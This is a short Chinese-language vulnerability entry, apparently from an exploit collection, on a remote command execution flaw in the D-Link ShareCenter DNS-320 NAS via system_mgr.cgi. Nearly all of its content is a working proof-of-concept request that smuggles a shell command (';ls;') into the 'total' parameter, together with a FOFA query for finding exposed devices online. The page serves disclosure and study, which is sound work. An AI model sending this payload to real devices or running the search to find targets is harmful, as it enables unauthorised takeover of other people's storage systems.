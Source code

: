 ```yaml
---
title: D-Link ShareCenter DNS-320 system_mgr.cgi 远程命令执行漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - 网络设备漏洞
 - D-Link
---
```


# D-Link ShareCenter DNS-320 system_mgr.cgi 远程命令执行漏洞

## 漏洞描述

D-Link ShareCenter DNS-320 system_mgr.cgi 存在远程命令执行，攻击者通过漏洞可以控制服务器

## 漏洞影响

> [!NOTE]
>
> D-Link ShareCenter DNS-320

## FOFA

> [!NOTE]
>
> app="D_Link-DNS-ShareCenter"

## 漏洞复现

登录页面如下

![image-20210605180903289](/img/20210924020304144097.png)

漏洞POC为

```
/cgi-bin/system_mgr.cgi?cmd=cgi_get_log_item&total=;ls;
```

![image-20210605181224009](/img/20210924020304512412.png)